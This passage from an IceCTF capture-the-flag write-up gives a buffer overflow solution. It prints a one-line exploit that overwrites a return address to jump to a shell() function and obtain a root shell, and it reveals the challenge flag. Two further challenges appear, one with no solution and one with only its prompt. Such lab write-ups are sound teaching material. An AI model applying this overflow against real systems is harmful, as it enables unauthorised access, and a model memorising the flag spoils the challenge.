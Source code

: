 ```c
}
```

**Solution**

Another buffer overflow challenge, this time we need to overwrite the return address to call the `shell()` function.
First we need to find out what that address should be, we can do this with gdb's `info functions shell` or
`objdump -d ./shout | grep shell` and find out that the address is `0x0804850b`

So we need to overwrite the return address with this address, in little endian order:

```
./shout `python -c "print('a'*28+'\x0b\x85\x04\x08')"`
```

this gives us a root shell and we can read the contents of `flag.txt` to read our flag:

**Flag**

```
IceCTF{i_dont_think_caveman_overflowed_buffers}
```

## Binary Exploit 800: Twitter

**Challenge**

Someone left a time machine in the basement with classic games from the 1970s. Let me play these on the job, nothing can go wrong.

```
ssh -p 2222 ssh.icec.tf -l gg4ugw5xbsr2myw-twitter
```

**Solution**

**Flag**


## Forensics 150: Modern Picasso

**Challenge**

Here's a rendition of some modern digital abstract art. Is it more than art though?

![](writeupfiles/picasso.gif)
